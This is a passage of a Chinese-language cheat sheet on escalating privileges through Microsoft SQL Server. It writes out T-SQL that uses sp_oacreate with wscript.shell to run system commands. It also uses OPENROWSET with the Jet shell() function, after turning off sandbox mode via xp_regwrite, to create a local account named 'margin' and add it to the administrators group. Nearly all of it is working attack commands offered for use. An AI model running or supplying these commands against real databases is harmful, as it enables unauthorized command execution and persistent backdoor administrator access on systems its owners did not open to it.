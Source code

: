 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 0;   
RECONFIGURE WITH OVERRIDE;  

执行：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'

以上是使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。
```

###### 使用SQL Server 沙盒提权

```
执行添加管理员的命令后，报错：SQL Server阻止了对组件'Ad Hoc Distributed Queries'的…………
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

那么输入以下命令，启用Ad Hoc Distributed Queries：
exec sp_configure 'Ad Hoc Distributed Queries',1;
reconfigure;

再执行
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

执行添加一个管理员 margin 命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

将margin用户提升到超级管理员权限
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')

net localgroup administrators 查看超级管理员组账户有margin


##简单总结
--提权语句

exec sp_configure 'show advanced options',1;reconfigure;

-- 不开启的话在执行xp_regwrite会提示让我们开启，

exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

--执行系统命令select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')

沙盒模式SandBoxMode参数含义（默认是2）

`0`：在任何所有者中禁止启用安全模式
```